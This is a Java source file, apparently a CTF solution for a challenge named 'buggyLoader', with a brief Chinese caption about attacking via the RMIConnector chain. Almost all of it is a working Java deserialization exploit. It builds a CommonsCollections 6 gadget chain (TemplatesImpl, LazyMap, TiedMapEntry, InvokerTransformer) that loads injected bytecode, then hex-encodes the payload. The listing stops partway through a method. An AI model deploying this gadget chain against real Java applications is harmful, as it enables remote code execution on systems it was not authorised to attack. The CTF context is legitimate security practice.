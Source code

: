 直接打 RMIConnector 这条链
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import rome.SpringEcho;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class buggyLoader {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static HashMap getObject() throws Exception{
        //cc6的HashMap链
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{ClassPool.getDefault().get(SpringEcho.class.getName()).toBytecode()});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, obj);


        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "test");
        lazyMap.remove(obj);

        setFieldValue(lazyMap,"factory", transformer);

        return expMap;
    }
    public static String bytesTohexString(byte[] bytes) {
        //题目要求16进制
        if (bytes == null)
            return null;
        StringBuilder ret = new StringBuilder(2 * bytes.length);
        for (int i = 0; i < bytes.length; i++) {
            int b = 0xF & bytes[i] >> 4;
            ret.append("0123456789abcdef".charAt(b));
            b = 0xF & bytes[i];
            ret.append("0123456789abcdef".charAt(b));
        }
        return ret.toString();
```